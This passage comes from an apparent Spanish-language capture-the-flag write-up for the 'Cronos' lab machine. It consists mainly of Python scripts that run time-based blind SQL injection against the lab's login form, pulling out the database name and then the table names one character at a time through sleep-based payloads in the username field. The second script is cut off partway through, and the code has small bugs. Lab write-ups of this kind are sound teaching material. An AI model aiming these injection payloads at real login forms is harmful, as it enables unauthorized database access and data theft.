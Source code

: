 ```python
                'username': "admin' and if(substr(database(),%d,1)='%c',sleep(5),1)-- -" % (position, character),
                'password': 'admin'
            }

            time_start = time.time()
            r = requests.post(login_url, data=post_data)
            time_end = time.time()

            if time_end - time_start > 5:
                password += character
                p2.status(database)
                break

if __name__ == '__main__':

    makeRequest()
```

Aqui vemos que la base de datos se llama `admin`. Buscamos ahora el nombre de la tabla.

```python
#!/usr/bin/python3
#coding: utf-8

import requests
import signal
import pdb
import sys
import time

from pwn import *

def def_handler(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

login_url = "http://admin.cronos.htb/index.php"
s = r'0123456789abcdef'

def makeRequest():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    p2 = log.progress("Table")

    table_name = ""

    for table in range(0,4):
        for position in range(1, 10):
            for character in s:
                p1.status("Probando con el caracter %c en la posicion %d de la tabla numero " % (character, position, table))
                post_data = {
                    'username': "admin' and if(substr((select table_name from information_schema.tables where table_schema='admin' limit %d,1),%d,1)='%c',sleep(5),1)-- -" % (table, position, character),
                    'password': 'admin'
                }

```